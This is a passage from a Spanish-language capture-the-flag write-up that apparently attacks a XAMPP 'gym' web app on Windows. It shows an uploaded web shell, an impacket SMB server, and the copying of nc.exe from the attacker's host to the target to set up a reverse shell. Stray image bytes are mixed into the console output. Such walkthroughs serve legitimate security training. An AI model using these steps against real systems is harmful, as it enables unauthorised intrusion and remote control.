Para confirmar que se puede transferir el binario de `nc` con el fin de enviar una shell reversa estable y trabajar de forma más cómoda sobre el sistema, se puede realizar una prueba de escritura en la carpeta de destino.
```bash
C:\xampp\htdocs\gym\upload> echo hola >hola.txt
�PNG


C:\xampp\htdocs\gym\upload> dir
�PNG

 Volume in drive C has no label.
 Volume Serial Number is A22D-49F7

 Directory of C:\xampp\htdocs\gym\upload

08/01/2024  14:34    <DIR>          .
08/01/2024  14:34    <DIR>          ..
08/01/2024  14:34                 7 hola.txt
08/01/2024  14:33                53 kamehameha.php
               2 File(s)             60 bytes
               2 Dir(s)   7,535,054,848 bytes free

C:\xampp\htdocs\gym\upload> 
```
{: .nolineno}


Por lo tanto, se monta un servidor **SMB** para transferir los archivos.


```bash
sudo impacket-smbserver smbFolder $(pwd) -smb2support
[sudo] password for kali: 
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
```
{: .nolineno}

```bash
copy \\10.10.14.14\smbFolder\nc.exe 
�PNG

        1 file(s) copied.

C:\xampp\htdocs\gym\upload> dir
�PNG

 Volume in drive C has no label.
 Volume Serial Number is A22D-49F7

 Directory of C:\xampp\htdocs\gym\upload

08/01/2024  14:44    <DIR>          .
08/01/2024  14:44    <DIR>          ..
08/01/2024  14:34                 7 hola.txt
08/01/2024  14:33                53 kamehameha.php
20/12/2023  17:29            38,616 nc.exe
               3 File(s)         38,676 bytes
               2 Dir(s)   7,731,343,360 bytes free

```